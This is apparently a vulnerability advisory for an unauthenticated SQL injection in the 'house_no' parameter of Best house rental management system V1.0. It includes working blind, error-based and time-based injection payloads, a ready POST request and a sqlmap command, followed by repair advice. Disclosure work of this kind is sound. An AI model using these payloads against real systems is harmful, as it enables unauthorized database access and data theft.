 # Best house rental management system V1.0 admin_class.php save_house SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Best house rental management system

## Vendor Homepage

- [Best house rental management system project in php | SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- s1ain

## VERSION(S)

- V1.0

## Software Link

- [Best house rental management system project in php | SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in function "save_house" of the file "/admin_class.php" of the 'Best house rental management system' project. The reason for this issue is that attackers inject malicious code from the parameter "house_no" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Best house rental management system", discovered a critical SQL injection vulnerability in function "save_house" of the file "/admin_class.php". This vulnerability stems from insufficient user input validation of the 'house_no' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

  

# **Code Analysis**

![image-20251011155636678](assets/image-20251011155636678.png)

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- boolean-based blind
- time-based blind
- error-based

## Vulnerability location:

- 'house_no' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: house_no=1' AND 5625=5625 AND 'hxmk'='hxmk&description=1&category_id=1&price=1&id=1
    Vector: AND [INFERENCE]

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: house_no=1' AND (SELECT 4305 FROM(SELECT COUNT(*),CONCAT(0x716b7a7871,(SELECT (ELT(4305=4305,1))),0x7176716271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'kLqo'='kLqo&description=1&category_id=1&price=1&id=1
    Vector: AND (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: house_no=1' AND (SELECT 1702 FROM (SELECT(SLEEP(5)))MTII) AND 'ePUh'='ePUh&description=1&category_id=1&price=1&id=1
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20251011155715654](assets/image-20251011155715654.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /ajax.php?action=save_house HTTP/1.1
Host: 10.151.169.235:8833
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cuq6v5v2e97ubeodt33s8k4ot9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

house_no=1*&description=1&category_id=1&price=1&id=1
```

# Attack results

![image-20251011155738648](assets/image-20251011155738648.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.